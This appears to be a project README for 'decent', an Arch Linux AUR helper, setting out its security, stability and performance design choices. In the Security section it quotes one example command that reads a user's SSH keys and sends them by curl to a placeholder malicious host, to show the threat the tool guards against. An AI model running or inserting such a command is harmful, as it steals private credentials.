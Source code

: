 # Decent

A decent pacman wrapper and AUR helper for Arch Linux.

## Why Decent

### Security

**AUR Helpers shouldn't rely on `makepkg` parse PKGBUILDs in the running user
session**
This opens a huge door for malicious PKGBUILDs to run something like:

```bash
cat ~/.ssh/id_rsa ~/.ssh/id_rsa.pub | curl -X POST --data-binary @- http://malicious.example.com/ 2>&1 > /dev/null
```

Running `makepkg --printsrcinfo` with that on the PKGBUILD global scope will
silently allow malicious people to retrieve critical user information.

Instead, `decent` will source PKGBUILDs, when needed, using a restrictive bash
instance without using the user's external environment.

**AUR Helpers should show the PKGBUILD before doing anything with it, by
default.**
To incentivize people reviewing the PKGBUILD files, by default, every PKGBUILD
that comes from the AUR will be firstly presented to the user for inspection. This
option is opt-out and will help prevent the installation of possible malicious
packages.

**AUR Helpers shouldn't require escalated privileges until it explicitly needs
them.**
Many AUR helpers use the so-called "sudo loop" to escalate privileges, when
needed. This shouldn't be a practice for a reason:

Imagine a AUR helper with "sudo loop" implementation and the package you want to
install has a make dependency. It will ask you, before building, for privileges
and then keep sudo timeout fresh. Whenever there is a sudo inside of your building
process, it will execute the command without even asking.

**AUR Helpers should support isolated builds.**
It's essencial to isolate builds as much as possible. One of the worst things of
building in the user environment is the usage of silent dependencies and
therefore, make packages really hard to reproduce. To achieve reproducibility,
`decent` runs `prepare()`, `build()` and `package()` in a isolatedcontainer with
the necessary dependencies.

### Stability

**AUR Helpers should be able to rebuild broken dependencies on update**
One thing crucial for AUR helpers is the ability to rebuild broken dependencies
on updates.

For example, if two packages depend on the same library, upgrading only
one package might also upgrade the library (as a dependency), which might then
break the other package which depends on the older version of the library.

Arch linux is a rolling release distribution which means that partial upgrades
are unsupported. When new library versions are pushed to the repositories, the
packages that are dependent on them should be rebuilt.

`decent` has a pacman hook to rebuild AUR packages for you when things got
updated.

**AUR Helpers should have it's own database instead of doing partial updates**
Because Arch Linux doesn't support partial updates, as stated before, it's a
good practice to maintain a seperate pacman database to resolve AUR dependencies
instead of doing partially `-Sy` and `-Su`.

**AUR Helpers should be built in a well supported, readable and maintainable
programming language**
Another key for achieving stability is the usage of Python. We chose Python for
a reason. Easy to understand, easy to maintain and most importantly, it has
official bindings support from Arch Linux for libalpm library. This will avoid
problems like this when updating:

```
aur-helper: error while loading shared libraries: libalpm.so.XX: cannot open shared object file: No such file or directory
```

### Performance

**AUR Helpers should use caching techniques to speed-up builds**
Unlike other helpers, `decent` uses some techniques to speed-up builds like
caching: Package repositories, Upstream sources and already built packages.

### Other features

- Support building local PKGBUILDs with AUR dependencies.
- Support building official packages from source.
- Show official Arch news before upgrading.
